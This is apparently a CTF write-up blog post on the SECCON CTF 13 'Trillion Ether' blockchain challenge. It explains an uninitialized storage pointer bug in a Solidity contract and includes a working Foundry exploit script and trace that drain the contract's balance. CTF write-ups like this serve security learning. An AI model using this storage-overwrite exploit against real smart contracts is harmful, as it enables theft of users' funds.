 ```yaml
---
layout: post
title: "SECCON CTF 13 Quals Blockchain Writeup"
categories: 
  - Writeup
  - blockchain
author: Songhyun Bae
---
```


I recently participated in the SECCON CTF 13 Qualifiers with my team, CyKor. I solved the “Trillion Ether” challenge in the blockchain category. I’m planning to write about it on my blog.


## **Trillion Ether**
> Get Chance!

Below is the code for the challenge. The contract allows the creation of wallets and includes `withdraw` and `transfer` functionalities. To solve the challenge, it is necessary to drain all the funds from the contract.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.28;

contract TrillionEther {
    struct Wallet {
        bytes32 name;
        uint256 balance;
        address owner;
    }

    Wallet[] public wallets;

    constructor() payable {
        require(msg.value == 1_000_000_000_000 ether);
    }

    function isSolved() external view returns (bool) {
        return address(this).balance == 0;
    }

    function createWallet(bytes32 name) external payable {
        wallets.push(_newWallet(name, msg.value, msg.sender));
    }

    function transfer(uint256 fromWalletId, uint256 toWalletId, uint256 amount) external {
        require(wallets[fromWalletId].owner == msg.sender, "not owner");
        wallets[fromWalletId].balance -= amount;
        wallets[toWalletId].balance += amount;
    }

    function withdraw(uint256 walletId, uint256 amount) external {
        require(wallets[walletId].owner == msg.sender, "not owner");
        wallets[walletId].balance -= amount;
        payable(wallets[walletId].owner).transfer(amount);
    }

    function _newWallet(bytes32 name, uint256 balance, address owner) internal returns (Wallet storage wallet) {
        wallet = wallet;
        wallet.name = name;
        wallet.balance = balance;
        wallet.owner = owner;
    }
}
```

The most apparent bug exists in the _newWallet function, where an uninitialized storage variables bug occurs. The wallet variable is declared as storage but is not properly initialized before assignment. Consequently, the data is written starting from storage slot 0.

```solidity
function _newWallet(bytes32 name, uint256 balance, address owner) internal returns (Wallet storage wallet) {
    wallet = wallet;
    wallet.name = name;
    wallet.balance = balance;
    wallet.owner = owner;
}
```

In the TrillionEther contract, storage slot 0 holds the wallets array. Being a dynamic array, this slot stores the array’s length, and the actual elements are stored starting from keccak(0).

```
$ forge inspect TrillionEther storage-layout --pretty
| Name    | Type                          | Slot | Offset | Bytes | Contract                            |
|---------|-------------------------------|------|--------|-------|-------------------------------------|
| wallets | struct TrillionEther.Wallet[] | 0    | 0      | 32    | src/TrillionEther.sol:TrillionEther |
```

The wallets array consists of the Wallet struct, which occupies three storage slots for each element:
```solidity
struct Wallet {
    bytes32 name;
    uint256 balance;
    address owner;
}

Wallet[] public wallets;
```

As a result, the storage slot for a new element in the array can be calculated using the formula: `keccak(0) + array length x 3`


By manipulating the array length in slot 0, we can cause an integer overflow during the multiplication step. This overflow allows us to overwrite the balance field of the Wallet struct with the owner address. By strategically creating wallets and controlling the overflow, we can target specific storage slots, overwrite critical data, and eventually drain all funds.

### Solution Script

Below is the exploit script that drains the contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {console} from "forge-std/console.sol";
import {Script} from "forge-std/Script.sol";

import {TrillionEther} from "../src/TrillionEther.sol";

contract solve is Script {
    uint256 playerPrivateKey;
    address player;

    TrillionEther problemInstance;

    function setUp() external {
        string memory rpcUrl = "http://trillion-ether.seccon.games:8545/fcf85a4f-6b2f-4f81-aef5-e966d043277f";
        playerPrivateKey = 0x6d9be7bb251e23e43ac737e9ce272c97d11eb2d8164b70fd92242a076eab0d30;
        address problemContract = 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F;

        player = vm.addr(playerPrivateKey);
        vm.createSelectFork(rpcUrl);

        problemInstance = TrillionEther(problemContract);
    }

    function run() external {
        vm.startBroadcast(playerPrivateKey);

        problemInstance.createWallet{value: 0}(bytes32(uint256(1))); 
        problemInstance.createWallet{value: 0}(bytes32(uint256(38597363079105398474523661669562635951089994888546854679819194669304376546646)));
        
        problemInstance.withdraw(1, address(problemInstance).balance);

        vm.stopBroadcast();
    }
}
```

```
$ forge script solve -vvvv --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Traces:
  [156386] solve::run()
    ├─ [0] VM::startBroadcast(<pk>)
    │   └─ ← [Return] 
    ├─ [93340] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::createWallet(0x0000000000000000000000000000000000000000000000000000000000000001)
    │   └─ ← [Stop] 
    ├─ [43240] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::createWallet(0x5555555555555555555555555555555555555555555555555555555555555556)
    │   └─ ← [Stop] 
    ├─ [8328] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::withdraw(1, 1000000000000000000000000000000 [1e30])
    │   ├─ [0] 0x6B4df773CB9AdA0515BBC8F4eB9e57C18cE54152::fallback{value: 1000000000000000000000000000000}()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop] 
```

